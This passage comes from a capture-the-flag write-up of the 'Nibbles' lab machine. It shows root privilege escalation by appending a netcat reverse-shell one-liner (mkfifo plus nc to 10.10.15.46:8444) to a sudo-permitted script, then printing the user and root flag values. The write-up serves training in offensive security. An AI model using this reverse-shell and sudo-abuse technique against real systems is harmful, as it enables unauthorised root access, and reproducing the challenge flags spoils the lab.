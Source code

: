 and we get to see that we have full sudo privs over `/home/nibbler/personal/stuff/monitor.sh` and this is gold.
We can run using sudo access to another reverse shell say at port 8444 and get complete root access.

So, in the personal.zip, first unzip it:
```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

Let's move into the directory and edit the `monitor.sh` since this is the file who's sudo privs will give us root access:
```shell-session
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.46 8444 >/tmp/f' | tee -a monitor.sh
```

Now, I appended it to the last line since when this executable runs it will execute everything in it, but don't run it just yet. Let's first power on `nc` at port `8444` (8444 is just from the reference i was taking, but you can take any):
```
$ nc -lvnp 8444
Listening on 0.0.0.0 8444
```

Let's now execute the .sh but with `sudo`:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
```

Gives a bunch of bs, but looking at whether picked up or not:
```
Connection received on 10.129.165.72 35574
#
```

Bingo!!!! We've connected, also if you notice the `#` means we're logged on as root!
Let's go get the last flag:
```
# ls
monitor.sh
# ls /root
root.txt
# cat /root
cat: /root: Is a directory
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```

With this we've successfully hacked the box.

---
## **Flag**

The user.txt flag is `79c03865431abf47b90ef24b9695e148`.
The root.txt flag is `de5e5d6619862a8aa5b9b212314e0cdd`.

---

**Prepared by Araiz Naqvi**